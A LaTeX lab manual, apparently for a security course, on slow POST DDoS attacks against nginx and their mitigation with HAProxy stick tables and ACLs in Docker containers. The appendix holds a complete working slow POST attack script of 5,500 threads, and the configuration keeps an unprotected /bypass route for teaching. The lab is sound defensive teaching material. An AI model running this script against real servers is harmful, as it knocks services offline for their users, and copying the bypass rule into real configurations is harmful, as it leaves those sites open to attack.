\documentclass[12pt]{article}
\usepackage[a4paper, margin=1in]{geometry}
\usepackage{enumitem}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage{tikz}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{booktabs}
\usepackage{multirow}
\usepackage{float}
\usepackage{caption}
\usepackage{subcaption}

% Code listing settings
\lstset{
    basicstyle=\ttfamily\footnotesize,
    breaklines=true,
    frame=single,
    numbers=left,
    numberstyle=\tiny,
    keywordstyle=\color{blue},
    commentstyle=\color{green!60!black},
    stringstyle=\color{red},
    backgroundcolor=\color{gray!10},
    showstringspaces=false,
    tabsize=4
}

% TikZ settings
\usetikzlibrary{shapes,arrows,positioning,fit}

\title{SEED Labs – Slow HTTP/TCP DDoS Attack and Mitigation Lab}
\author{Idan Kestenboum \and Shachar Gabbay}
\date{\today}

\begin{document}

\maketitle

\begin{abstract}
This lab demonstrates slow HTTP/TCP DDoS attacks and their mitigation using HAProxy. Students will learn about slow POST attacks, understand how it can exhaust server resources, and implement protection mechanisms using path-based bypass rules and IP-based throttling with stick tables. The lab provides hands-on experience with real attack scenarios and defense strategies in a controlled environment.
\end{abstract}

\tableofcontents
\newpage

\section{Lab Overview}

\subsection{Learning Objectives}
By completing this lab, students will be able to:
\begin{itemize}
    \item Understand the mechanics of slow HTTP/TCP DDoS attacks (slow POST)
    \item Identify how these attacks exhaust server resources and impact legitimate users
    \item Implement HAProxy-based protection mechanisms using stick tables and ACLs
    \item Configure path-based bypass rules for testing and monitoring
    \item Design and test IP-based throttling strategies
    \item Evaluate the effectiveness of DDoS mitigation techniques
\end{itemize}

\subsection{Prerequisites}
\begin{itemize}
    \item Basic understanding of HTTP protocol and TCP connections
    \item Familiarity with Docker and containerization
    \item Knowledge of networking concepts (IP addresses, ports, connections)
    \item Basic Linux command-line experience
\end{itemize}

\subsection{Lab Environment}
The lab uses Docker containers to create an isolated environment with:
\begin{itemize}
    \item \textbf{nginx-server}: Backend web server (port 8080)
    \item \textbf{haproxy}: Reverse proxy with DDoS protection (port 8081)
    \item \textbf{attacker}: Container with attack scripts
    \item \textbf{user}: Container for legitimate user simulation
\end{itemize}

\section{Background Theory}

\subsection{Slow HTTP/TCP DDoS Attacks}

Slow HTTP/TCP attacks are application-layer DDoS attacks that exploit the way web servers handle HTTP connections. Unlike traditional DDoS attacks that flood servers with high-volume traffic, slow attacks use low-bandwidth connections that remain open for extended periods.

\subsubsection{Slow POST Attack}
The slow POST attack:
\begin{enumerate}
    \item Sends a POST request with a large Content-Length header
    \item Establishes the connection and sends headers
    \item Sends the request body very slowly (e.g., 1 byte per second)
    \item Keeps the connection open until the entire body is sent
\end{enumerate}

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    node distance=3cm,
    box/.style={rectangle,draw,minimum width=2.5cm,minimum height=1.2cm,align=center},
    arrow/.style={->,thick}
]
    \node[box] (attacker) {Attacker};
    \node[box,right of=attacker] (server) {Web Server};
    
    \draw[arrow] (attacker) -- node[above,sloped] {1. POST with large Content-Length} (server);
    \draw[arrow] (attacker) to[bend left=15] node[above,sloped] {2. Send headers} (server);
    \draw[arrow] (attacker) to[bend right=15] node[below,sloped] {3. Send body slowly (1 byte/sec)} (server);
    \draw[arrow] (attacker) to[bend left=30] node[above,sloped] {4. Keep connection open} (server);
\end{tikzpicture}
\caption{Slow POST Attack Flow}
\label{fig:slowpost}
\end{figure}

\subsection{HAProxy Protection Mechanisms}

\subsubsection{What is HAProxy?}
HAProxy (High Availability Proxy) is a free, very fast and reliable solution offering high availability, load balancing, and proxying for TCP and HTTP-based applications. It is particularly suited for web sites crawling under very high load while needing persistence or Layer 7 processing. HAProxy runs on event-driven, non-blocking engine, making it very efficient and suitable for high-traffic web sites.

Key features of HAProxy include:
\begin{itemize}
    \item \textbf{Load Balancing}: Distributes incoming requests across multiple backend servers
    \item \textbf{Health Checking}: Monitors backend server health and automatically removes failed servers
    \item \textbf{SSL Termination}: Handles SSL/TLS encryption and decryption
    \item \textbf{Rate Limiting}: Controls request rates to prevent abuse
    \item \textbf{Stick Tables}: Tracks client behavior for advanced traffic management
    \item \textbf{ACLs}: Access Control Lists for making routing decisions based on various criteria
\end{itemize}

\subsubsection{Stick Tables}
Stick tables are HAProxy's mechanism for tracking client behavior across multiple connections. They act as in-memory databases that store information about clients (typically identified by IP address) and their associated metrics.

\textbf{Key Concepts:}
\begin{itemize}
    \item \textbf{Type}: IP-based tracking (can also track other identifiers like user-agent, cookie, etc.)
    \item \textbf{Size}: Configurable table size (e.g., 100k entries) - when full, oldest entries are evicted
    \item \textbf{Expiration}: Automatic cleanup after specified time (e.g., 10 minutes)
    \item \textbf{Storage}: Various metrics like connection rate, request rate, bytes transferred, etc.
\end{itemize}

\textbf{Common Stick Table Store Options:}
\begin{itemize}
    \item \texttt{conn\_rate(10s)}: Number of connections per 10 seconds
    \item \texttt{req\_rate(10s)}: Number of requests per 10 seconds
    \item \texttt{bytes\_in\_rate(10s)}: Bytes received per 10 seconds
    \item \texttt{bytes\_out\_rate(10s)}: Bytes sent per 10 seconds
\end{itemize}

\textbf{Example Configuration:}
\begin{lstlisting}[language=bash]
# Define a stick table for tracking abusive IPs
backend abuse_tracker
    stick-table type ip size 100k expire 10m store conn_rate(10s)
\end{lstlisting}

\subsubsection{Access Control Lists (ACLs)}
Access Control Lists (ACLs) are HAProxy's primary mechanism for making routing decisions based on various conditions. ACLs evaluate to true or false and can be combined using logical operators.

\textbf{Common ACL Types:}
\begin{itemize}
    \item \textbf{Path-based ACLs}: Match URL paths (e.g., \texttt{path\_beg /bypass})
    \item \textbf{IP-based ACLs}: Match source IP addresses (e.g., \texttt{src 192.168.1.0/24})
    \item \textbf{Rate-based ACLs}: Match based on stick table data (e.g., \texttt{src\_conn\_rate(abuse\_tracker) gt 20})
    \item \textbf{Header-based ACLs}: Match HTTP headers (e.g., \texttt{hdr(User-Agent) -i bot})
    \item \textbf{Method-based ACLs}: Match HTTP methods (e.g., \texttt{method POST})
\end{itemize}

\textbf{ACL Usage Examples:}
\begin{lstlisting}[language=bash]
# Define ACLs
acl is_bypass path_beg /bypass
acl abusive_ip src_conn_rate(abuse_tracker) gt 20

# Use ACLs in routing decisions
use_backend direct_backend if is_bypass
use_backend reserve_backend if !abusive_ip
use_backend main_backend if abusive_ip
\end{lstlisting}

\textbf{ACL Operators:}
\begin{itemize}
    \item \texttt{eq}: Equal to
    \item \texttt{gt}: Greater than
    \item \texttt{lt}: Less than
    \item \texttt{beg}: Begins with
    \item \texttt{end}: Ends with
    \item \texttt{sub}: Contains substring
    \item \texttt{reg}: Regular expression match
\end{itemize}

\subsubsection{Integration of Stick Tables and ACLs}
The power of HAProxy's protection mechanisms comes from combining stick tables and ACLs:

\begin{enumerate}
    \item \textbf{Tracking}: Stick tables track client behavior (e.g., connection rates)
    \item \textbf{Evaluation}: ACLs evaluate conditions based on stick table data
    \item \textbf{Action}: Routing decisions are made based on ACL evaluation results
\end{enumerate}

\textbf{Complete Example:}
\begin{lstlisting}[language=bash]
# 1. Define stick table for tracking
backend abuse_tracker
    stick-table type ip size 100k expire 10m store conn_rate(10s)

# 2. Track connections in frontend
frontend http-in
    bind *:8081
    
    # Track client IP in stick table
    tcp-request connection track-sc0 src table abuse_tracker
    
    # Define ACL for abusive behavior
    acl abusive_ip src_conn_rate(abuse_tracker) gt 20
    
    # Route based on ACL evaluation
    use_backend reserve_backend if !abusive_ip
    use_backend main_backend if abusive_ip
\end{lstlisting}

This integration allows HAProxy to:
\begin{itemize}
    \item Dynamically identify abusive clients based on their behavior
    \item Route traffic to different backends based on client reputation
    \item Maintain service quality for legitimate users while handling attacks
    \item Automatically adapt to changing attack patterns
\end{itemize}

\section{Lab Setup}

\subsection{Environment Preparation}

\subsubsection{Step 1: Clone and Navigate}
\begin{lstlisting}[language=bash]
# Navigate to the lab directory
cd ddos-lab

# Verify the structure
ls -la
\end{lstlisting}

\subsubsection{Step 2: Build and Start Containers}
\begin{lstlisting}[language=bash]
# Build and start all services
docker-compose up -d --build

# Verify all containers are running
docker-compose ps
\end{lstlisting}

\subsubsection{Step 3: Verify Services}
\begin{lstlisting}[language=bash]
# Check if nginx is accessible directly
curl http://localhost:8080

# Check if HAProxy is accessible
curl http://localhost:8081
\end{lstlisting}

\subsection{Network Topology}

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    node distance=2.5cm,
    box/.style={rectangle,draw,minimum width=2.5cm,minimum height=1.2cm,align=center},
    arrow/.style={->,thick},
    network/.style={rectangle,draw,dashed,minimum width=4cm,minimum height=2.5cm,align=center}
]
    \node[box] (user) {User Container\\172.17.0.x};
    \node[box,right of=user] (attacker) {Attacker Container\\172.17.0.x};
    
    \node[network,below of=user,yshift=-1.5cm] (network) {Docker Network\\ddos-net};
    
    \node[box,below of=network,yshift=-1.5cm] (haproxy) {HAProxy\\Port 8081};
    \node[box,below of=haproxy] (nginx) {Nginx Server\\Port 8080};
    
    \draw[arrow] (user) -- (network);
    \draw[arrow] (attacker) -- (network);
    \draw[arrow] (network) -- (haproxy);
    \draw[arrow] (haproxy) -- (nginx);
    
    \draw[arrow] (user) to[bend left=45] node[above,sloped] {Direct Access} (nginx);
\end{tikzpicture}
\caption{Lab Network Topology}
\label{fig:topology}
\end{figure}

\section{Phase 1: Direct DDoS Attack}

\subsection{Objective}
Demonstrate how slow HTTP/TCP attacks can overwhelm a backend server when no protection is in place.

\subsection{Task 1: Baseline Performance Test}

\subsubsection{Step 1: Access User Container}
\begin{lstlisting}[language=bash]
# Access the user container
docker exec -it user sh
\end{lstlisting}

\subsubsection{Step 2: Measure Normal Response Time}
\begin{lstlisting}[language=bash]
# Test normal response time using container name
time curl -s http://nginx-server:80 > /dev/null
\end{lstlisting}

\subsubsection{Step 3: Monitor Server Resources}
\begin{lstlisting}[language=bash]
# In another terminal, monitor nginx server
docker exec -it nginx-server bash

# Check current connections
netstat -an | grep :80 | wc -l

# Monitor system resources
htop
\end{lstlisting}

\subsection{Task 2: Execute Slow POST Threads Attack (Direct)}

\subsubsection{Step 1: Access Attacker Container}
\begin{lstlisting}[language=bash]
# Access the attacker container
docker exec -it attacker bash
\end{lstlisting}

\subsubsection{Step 2: Launch Direct Attack}
\begin{lstlisting}[language=bash]
# Navigate to the attack directory
cd /app

# Run slow POST threads attack directly against nginx-server
python3 slow_post_threads.py direct protected
\end{lstlisting}

\subsubsection{Step 3: Monitor Impact}
\begin{lstlisting}[language=bash]
# In the nginx container, monitor connections
watch -n 1 "netstat -an | grep :80 | wc -l"

# Check nginx error logs
tail -f /var/log/nginx/error.log
\end{lstlisting}

\subsubsection{Step 4: Test Legitimate User Access}
\begin{lstlisting}[language=bash]
# In the user container, test access during attack
time curl -s http://nginx-server:80 > /dev/null
\end{lstlisting}

\subsection{Expected Results}
\begin{itemize}
    \item Server response times increase significantly
    \item Connection count rises rapidly
    \item Legitimate users experience delays or timeouts
    \item Server may become unresponsive
\end{itemize}

\section{Phase 2: HAProxy Protection Implementation}

\subsection{Objective}
Implement HAProxy-based protection mechanisms to mitigate slow HTTP/TCP attacks while maintaining service availability for legitimate users.

\subsection{Task 1: Configure HAProxy Protection}

\subsubsection{Step 1: Review Current Configuration}
The HAProxy configuration includes several protection mechanisms:

\begin{lstlisting}[language=bash, caption=HAProxy Configuration]
# IP tracking table (stick table)
backend abuse_tracker
    stick-table type ip size 100k expire 10m store conn_rate(10s)

frontend http-in
    bind *:8081
    log global

    # 1. Bypass path routing (handled first)
    acl is_bypass path_beg /bypass
    use_backend direct_backend if is_bypass

    # 2. Track IP into stick-table
    tcp-request connection track-sc0 src table abuse_tracker

    # 3. ACL for abusive IPs
    acl abusive_ip src_conn_rate(abuse_tracker) gt 20

    # 4. Routing based on IP behavior
    use_backend reserve_backend if !abusive_ip
    use_backend main_backend if abusive_ip

backend reserve_backend
    timeout server 1s
    option http-server-close
    server nginx nginx-server:80 maxconn 200 check

backend main_backend
    timeout server 1s
    option http-server-close
    server nginx nginx-server:80 maxconn 800 check

backend direct_backend
    timeout server 1s
    option http-server-close
    server nginx nginx-server:80
\end{lstlisting}

\subsubsection{Step 2: Understand Protection Mechanisms}

\textbf{Path-based Bypass:}
\begin{itemize}
    \item Requests starting with `/bypass` go directly to `direct_backend`
    \item No rate limiting or protection applied
    \item Useful for testing and monitoring
\end{itemize}

\textbf{IP-based Throttling:}
\begin{itemize}
    \item Tracks connection rate per IP over 10-second windows
    \item IPs with >20 connections in 10s are marked as abusive
    \item Abusive IPs routed to `main_backend` (800 max connections)
    \item Clean IPs routed to `reserve_backend` (200 max connections)
\end{itemize}

\subsection{Task 2: Test HAProxy Bypass Path (Attack Succeeds)}

\subsubsection{Step 1: Access User Container}
\begin{lstlisting}[language=bash]
# Access the user container
docker exec -it user sh
\end{lstlisting}

\subsubsection{Step 2: Test Bypass Path}
\begin{lstlisting}[language=bash]
# Test bypass path using container name
curl -v http://haproxy:8081/bypass/test
\end{lstlisting}

\subsubsection{Step 3: Launch Attack Using Bypass Path}
\begin{lstlisting}[language=bash]
# In the attacker container, launch attack using bypass path
python3 slow_post_threads.py proxy bypass
\end{lstlisting}

\subsubsection{Step 4: Test Legitimate User Access During Bypass Attack}
\begin{lstlisting}[language=bash]
# In the user container, test access during bypass attack
time curl -s http://haproxy:8081/ > /dev/null
\end{lstlisting}

\subsection{Task 3: Test HAProxy Protected Path (Attack Fails)}

\subsubsection{Step 1: Launch Attack Using Protected Path}
\begin{lstlisting}[language=bash]
# In the attacker container, launch attack using protected path
python3 slow_post_threads.py proxy protected
\end{lstlisting}

\subsubsection{Step 2: Monitor Protection Effectiveness}
\begin{lstlisting}[language=bash]
# Monitor HAProxy logs
docker logs -f haproxy

# Check connection distribution
docker exec -it haproxy haproxy -c -f /usr/local/etc/haproxy/haproxy.cfg
\end{lstlisting}

\subsubsection{Step 3: Test Legitimate User Access During Protected Attack}
\begin{lstlisting}[language=bash]
# In the user container, test access during protected attack
time curl -s http://haproxy:8081/ > /dev/null
\end{lstlisting}

\subsection{Task 4: Compare Results}

\subsubsection{Step 1: Analyze Attack Effectiveness}
\begin{lstlisting}[language=bash]
# Monitor HAProxy logs for protection activity
docker logs -f haproxy | grep -E "(abusive_ip|reserve_backend|main_backend)"

# Check nginx server status during different attack modes
docker exec -it nginx-server netstat -an | grep :80 | wc -l
\end{lstlisting}

\subsubsection{Step 2: Performance Comparison}
\begin{table}[H]
\centering
\begin{tabular}{|l|c|c|c|}
\hline
\textbf{Scenario} & \textbf{Direct Attack} & \textbf{Bypass Attack} & \textbf{Protected Attack} \\
\hline
Server Response Time & >5s & >5s & <200ms \\
\hline
Legitimate User Access & Failed & Failed & Successful \\
\hline
Connection Count & High & High & Controlled \\
\hline
Server Status & Unresponsive & Unresponsive & Responsive \\
\hline
\end{tabular}
\caption{Attack Effectiveness Comparison}
\label{tab:attack_comparison}
\end{table}

\section{Evaluation and Analysis}

\subsection{Performance Metrics}

\subsubsection{Response Time Comparison}
\begin{table}[H]
\centering
\begin{tabular}{|l|c|c|c|}
\hline
\textbf{Scenario} & \textbf{Before Attack} & \textbf{During Attack} & \textbf{With Protection} \\
\hline
Normal Request & <100ms & >5s & <200ms \\
\hline
Bypass Path & <100ms & >5s & <100ms \\
\hline
Concurrent Users & 50+ & 5-10 & 40+ \\
\hline
\end{tabular}
\caption{Performance Comparison}
\label{tab:performance}
\end{table}

\subsubsection{Attack Effectiveness Comparison}
\begin{table}[H]
\centering
\begin{tabular}{|l|c|c|c|}
\hline
\textbf{Scenario} & \textbf{Direct Attack} & \textbf{Bypass Attack} & \textbf{Protected Attack} \\
\hline
Server Response Time & >5s & >5s & <200ms \\
\hline
Legitimate User Access & Failed & Failed & Successful \\
\hline
Connection Count & High & High & Controlled \\
\hline
Server Status & Unresponsive & Unresponsive & Responsive \\
\hline
\end{tabular}
\caption{Attack Effectiveness Comparison}
\label{tab:attack_comparison}
\end{table}

\subsubsection{Connection Distribution}
\begin{table}[H]
\centering
\begin{tabular}{|l|c|c|}
\hline
\textbf{Backend} & \textbf{Max Connections} & \textbf{Purpose} \\
\hline
reserve\_backend & 200 & Clean traffic \\
\hline
main\_backend & 800 & Abusive traffic \\
\hline
direct\_backend & Unlimited & Bypass/testing \\
\hline
\end{tabular}
\caption{Backend Configuration}
\label{tab:backends}
\end{table}

\subsection{Attack Effectiveness Analysis}

\subsubsection{Direct Attack (Phase 1)}
\begin{itemize}
    \item \textbf{Target:} nginx-server directly
    \item \textbf{Method:} Slow POST threads with 5500 concurrent connections
    \item \textbf{Result:} Server becomes unresponsive, legitimate users cannot access
    \item \textbf{Impact:} Complete service disruption
\end{itemize}

\subsubsection{Bypass Attack (Phase 2)}
\begin{itemize}
    \item \textbf{Target:} HAProxy with bypass path (/bypass)
    \item \textbf{Method:} Slow POST threads using bypass route
    \item \textbf{Result:} Attack succeeds, server becomes unresponsive
    \item \textbf{Impact:} Service disruption despite HAProxy presence
\end{itemize}

\subsubsection{Protected Attack (Phase 2)}
\begin{itemize}
    \item \textbf{Target:} HAProxy with protected path (/)
    \item \textbf{Method:} Slow POST threads using protected route
    \item \textbf{Result:} Attack fails, legitimate users can still access service
    \item \textbf{Impact:} Service remains available for legitimate users
\end{itemize}

\section{Advanced Topics}

\subsection{HAProxy Configuration Optimization}

\subsubsection{Stick Table Tuning}
\begin{lstlisting}[language=bash]
# Optimize stick table for your environment
backend abuse_tracker
    stick-table type ip size 200k expire 5m store conn_rate(5s),http_req_rate(10s)
\end{lstlisting}

\subsubsection{Advanced ACLs}
\begin{lstlisting}[language=bash]
# More sophisticated abuse detection
acl abusive_ip src_conn_rate(abuse_tracker) gt 20
acl slow_request req_len gt 10000
acl suspicious_user_agent hdr_sub(User-Agent) -i "bot\|crawler"
\end{lstlisting}

\subsection{Monitoring and Logging}

\subsubsection{HAProxy Statistics}
\begin{lstlisting}[language=bash]
# Enable HAProxy statistics
listen stats
    bind *:8404
    stats enable
    stats uri /stats
    stats refresh 10s
\end{lstlisting}

\subsubsection{Log Analysis}
\begin{lstlisting}[language=bash]
# Analyze HAProxy logs
docker logs haproxy | grep "abusive_ip\|reserve_backend\|main_backend"
\end{lstlisting}

\section{Real-World Proxy Load Balancing Applications}

\subsection{Introduction}
The HAProxy-based protection mechanisms demonstrated in this lab are widely used in real-world production environments. Understanding how proxies and load balancers work in practice helps students appreciate the practical applications of the concepts learned.

\subsection{Common Use Cases}

\subsubsection{1. Web Application Load Balancing}
\begin{itemize}
    \item \textbf{Traffic Distribution:} Distribute incoming requests across multiple backend servers
    \item \textbf{Health Checking:} Monitor server health and automatically remove failed servers
    \item \textbf{Session Persistence:} Maintain user sessions across multiple requests
    \item \textbf{SSL Termination:} Handle SSL/TLS encryption at the proxy level
\end{itemize}

\subsubsection{2. DDoS Protection and Mitigation}
\begin{itemize}
    \item \textbf{Rate Limiting:} Prevent abuse by limiting requests per IP address
    \item \textbf{Traffic Filtering:} Block malicious traffic based on patterns and signatures
    \item \textbf{Geographic Distribution:} Route traffic based on geographic location
    \item \textbf{Traffic Shaping:} Prioritize legitimate traffic over attack traffic
\end{itemize}

\subsubsection{3. High Availability and Failover}
\begin{itemize}
    \item \textbf{Active-Passive:} Primary server with backup servers on standby
    \item \textbf{Active-Active:} Multiple servers handling traffic simultaneously
    \item \textbf{Automatic Failover:} Switch to backup servers when primary fails
    \item \textbf{Load Distribution:} Balance load across multiple data centers
\end{itemize}

\subsection{Real-World Implementation Examples}

\subsubsection{1. E-commerce Platforms}
\begin{lstlisting}[language=bash, caption=Typical E-commerce Load Balancer Configuration]
# Example HAProxy configuration for e-commerce
frontend web_frontend
    bind *:80
    bind *:443 ssl crt /etc/ssl/certs/ecommerce.pem
    
    # Rate limiting for checkout pages
    acl checkout_page path_beg /checkout
    http-request deny if { req_rate gt 10 } checkout_page
    
    # Session persistence
    cookie SERVERID insert indirect nocache
    
    default_backend web_servers

backend web_servers
    balance roundrobin
    cookie SERVERID
    server web1 10.0.1.10:80 check cookie web1
    server web2 10.0.1.11:80 check cookie web2
    server web3 10.0.1.12:80 check cookie web3
\end{lstlisting}

\subsubsection{2. Content Delivery Networks (CDNs)}
\begin{itemize}
    \item \textbf{Global Distribution:} Serve content from servers closest to users
    \item \textbf{Caching:} Cache static content to reduce backend load
    \item \textbf{Edge Computing:} Process requests at the edge of the network
    \item \textbf{DDoS Protection:} Filter traffic before it reaches origin servers
\end{itemize}

\subsubsection{3. Microservices Architecture}
\begin{lstlisting}[language=bash, caption=Microservices Load Balancer Configuration]
# Example for microservices architecture
frontend api_gateway
    bind *:8080
    
    # Route to different microservices
    acl is_user_service path_beg /api/users
    acl is_order_service path_beg /api/orders
    acl is_payment_service path_beg /api/payments
    
    use_backend user_service if is_user_service
    use_backend order_service if is_order_service
    use_backend payment_service if is_payment_service

backend user_service
    server user1 10.0.2.10:3001 check
    server user2 10.0.2.11:3001 check

backend order_service
    server order1 10.0.2.20:3002 check
    server order2 10.0.2.21:3002 check

backend payment_service
    server payment1 10.0.2.30:3003 check
    server payment2 10.0.2.31:3003 check
\end{lstlisting}

\subsection{Advanced Load Balancing Techniques}

\subsubsection{1. Intelligent Routing}
\begin{itemize}
    \item \textbf{Least Connections:} Route to server with fewest active connections
    \item \textbf{Weighted Round Robin:} Distribute traffic based on server capacity
    \item \textbf{IP Hash:} Route based on client IP for session consistency
    \item \textbf{Response Time:} Route to fastest responding server
\end{itemize}

\subsubsection{2. Health Monitoring}
\begin{lstlisting}[language=bash, caption=Health Check Configuration]
# Advanced health checking
backend web_servers
    option httpchk GET /health
    http-check expect status 200
    server web1 10.0.1.10:80 check inter 5s rise 2 fall 3
    server web2 10.0.1.11:80 check inter 5s rise 2 fall 3
\end{lstlisting}

\subsubsection{3. Traffic Analysis and Monitoring}
\begin{itemize}
    \item \textbf{Real-time Metrics:} Monitor request rates, response times, and errors
    \item \textbf{Log Analysis:} Analyze traffic patterns and identify anomalies
    \item \textbf{Alerting:} Set up alerts for unusual traffic patterns
    \item \textbf{Capacity Planning:} Use metrics for infrastructure planning
\end{itemize}

\subsection{Industry Best Practices}

\subsubsection{1. Security Considerations}
\begin{itemize}
    \item \textbf{SSL/TLS Termination:} Handle encryption at the proxy level
    \item \textbf{Access Control:} Implement IP-based access controls
    \item \textbf{Rate Limiting:} Prevent abuse and DDoS attacks
    \item \textbf{Request Validation:} Validate and sanitize incoming requests
\end{itemize}

\subsubsection{2. Performance Optimization}
\begin{itemize}
    \item \textbf{Connection Pooling:} Reuse connections to backend servers
    \item \textbf{Compression:} Compress responses to reduce bandwidth
    \item \textbf{Caching:} Cache frequently accessed content
    \item \textbf{Load Distribution:} Optimize traffic distribution algorithms
\end{itemize}

\subsubsection{3. Monitoring and Maintenance}
\begin{itemize}
    \item \textbf{Health Checks:} Regular monitoring of backend services
    \item \textbf{Log Management:} Centralized logging and analysis
    \item \textbf{Backup and Recovery:} Regular backups and disaster recovery plans
    \item \textbf{Capacity Planning:} Monitor usage patterns and plan for growth
\end{itemize}

\subsection{Comparison with Lab Implementation}

\subsubsection{Similarities}
\begin{itemize}
    \item \textbf{Rate Limiting:} Both use connection rate tracking for abuse detection
    \item \textbf{Path-based Routing:} Both implement path-based routing decisions
    \item \textbf{Health Monitoring:} Both monitor backend server health
    \item \textbf{Traffic Distribution:} Both distribute traffic across multiple backends
\end{itemize}

\subsubsection{Differences}
\begin{itemize}
    \item \textbf{Scale:} Real-world implementations handle millions of requests per second
    \item \textbf{Complexity:} Production systems have more sophisticated routing rules
    \item \textbf{Monitoring:} Real-world systems have comprehensive monitoring and alerting
    \item \textbf{Security:} Production systems implement additional security measures
\end{itemize}

\subsection{Conclusion}
The concepts learned in this lab provide a foundation for understanding real-world proxy and load balancing implementations. The HAProxy configuration and protection mechanisms demonstrated here are directly applicable to production environments, where they help ensure high availability, security, and performance for web applications and services.

\section{Submission Requirements}

\subsection{Required Deliverables}

\subsubsection{1. Lab Report}
Submit a comprehensive report including:
\begin{itemize}
    \item Executive summary of findings
    \item Detailed analysis of attack effectiveness
    \item Evaluation of protection mechanisms
    \item Performance comparison tables
    \item Recommendations for improvement
\end{itemize}

\subsubsection{2. Configuration Files}
\begin{itemize}
    \item HAProxy configuration with annotations
    \item Docker Compose file modifications (if any)
    \item Attack script modifications (if any)
\end{itemize}

\subsubsection{3. Evidence and Screenshots}
\begin{itemize}
    \item Screenshots of attack execution
    \item HAProxy logs showing protection in action
    \item Performance monitoring results
    \item Network topology verification
\end{itemize}

\subsection{Evaluation Criteria}

\begin{table}[H]
\centering
\begin{tabular}{|l|c|}
\hline
\textbf{Criterion} & \textbf{Weight} \\
\hline
Understanding of attack mechanisms & 25\% \\
\hline
Implementation of protection strategies & 30\% \\
\hline
Analysis and evaluation & 25\% \\
\hline
Documentation and presentation & 20\% \\
\hline
\end{tabular}
\caption{Evaluation Criteria}
\label{tab:evaluation}
\end{table}

\section{Appendix}

\subsection{Complete HAProxy Configuration}
\begin{lstlisting}[language=bash, caption=Complete HAProxy Configuration]
global
    maxconn 2000
    daemon
    log stdout format raw daemon

defaults
    mode http
    timeout connect 1s
    timeout client  1s
    timeout server  1s
    log global

# IP tracking table (stick table)
backend abuse_tracker
    stick-table type ip size 100k expire 10m store conn_rate(10s)

frontend http-in
    bind *:8081
    log global

    # 1. Bypass path routing (handled first)
    acl is_bypass path_beg /bypass
    use_backend direct_backend if is_bypass

    # 2. Track IP into stick-table
    tcp-request connection track-sc0 src table abuse_tracker

    # 3. ACL for abusive IPs
    acl abusive_ip src_conn_rate(abuse_tracker) gt 20

    # 4. Dynamic backend tag based on IP behavior
    http-request set-var(req.backend_name) str(main_backend)
    http-request set-var(req.backend_name) str(reserve_backend) if !abusive_ip

    # 5. Declare capture slot (1 string of 64 bytes)
    capture request header Host len 64

    # 6. Logging format with backend decision
    log-format "SRC=%ci RATE=%[src_conn_rate(abuse_tracker)] BACKEND=%[var(req.backend_name)]"

    # 7. Routing
    use_backend reserve_backend if !abusive_ip
    use_backend main_backend if abusive_ip

backend reserve_backend
    timeout server 1s
    option http-server-close
    server nginx nginx-server:80 maxconn 200 check

backend main_backend
    timeout server 1s
    option http-server-close
    server nginx nginx-server:80 maxconn 800 check

backend direct_backend
    timeout server 1s
    option http-server-close
    server nginx nginx-server:80
\end{lstlisting}

\subsection{Attack Scripts}

\subsubsection{Slow POST Threads Attack Script}
\begin{lstlisting}[language=python, caption=Slow POST Threads Attack Script]
import socket
import time
import threading
import sys

# Usage: python3 slow_post_threads.py [proxy|direct] [protected|bypass]
target = sys.argv[1] if len(sys.argv) > 1 else "proxy"
mode = sys.argv[2] if len(sys.argv) > 2 else "protected"

if target == "proxy":
    host = "haproxy"
    port = 8081
else:
    host = "nginx-server"
    port = 80

path = "/" if mode == "protected" else "/bypass"

content_length = 1000000000
num_threads = 5500

def slow_post(thread_id):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(5)
        sock.connect((host, port))
        print(f"[{thread_id}] Connected to {host}:{port} ({mode})")

        headers = (
            f"POST {path} HTTP/1.1\r\n"
            f"Host: {host}\r\n"
            f"Content-Length: {content_length}\r\n"
            f"Content-Type: application/x-www-form-urlencoded\r\n"
            f"Connection: keep-alive\r\n\r\n"
        )
        sock.send(headers.encode())

        while True:
            sock.send(b"A")
            time.sleep(0.05)
    except Exception as e:
        print(f"[{thread_id}] Error: {e}")

print(f"[+] Starting {num_threads} slow POST threads to {host}:{port}{path}")
for i in range(num_threads):
    threading.Thread(target=slow_post, args=(i,), daemon=True).start()

while True:
    time.sleep(10)
\end{lstlisting}

\subsubsection{Script Usage Examples}
\begin{lstlisting}[language=bash]
# Direct attack against nginx-server (Phase 1)
python3 slow_post_threads.py direct protected

# Bypass attack through HAProxy (Phase 2 - Attack succeeds)
python3 slow_post_threads.py proxy bypass

# Protected attack through HAProxy (Phase 2 - Attack fails)
python3 slow_post_threads.py proxy protected
\end{lstlisting}

